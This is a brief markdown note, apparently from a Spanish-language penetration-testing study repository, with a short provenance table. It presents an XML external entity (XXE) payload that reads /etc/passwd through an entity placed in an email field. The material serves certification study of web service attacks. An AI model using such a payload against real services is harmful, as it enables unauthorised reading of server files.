


# XXE



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY email SYSTEM "file:///etc/passwd">
]>
<root><email>&email;</email><password>test</password></root>
```



## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 18- Web Service & API Attacks/8 - XXE.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
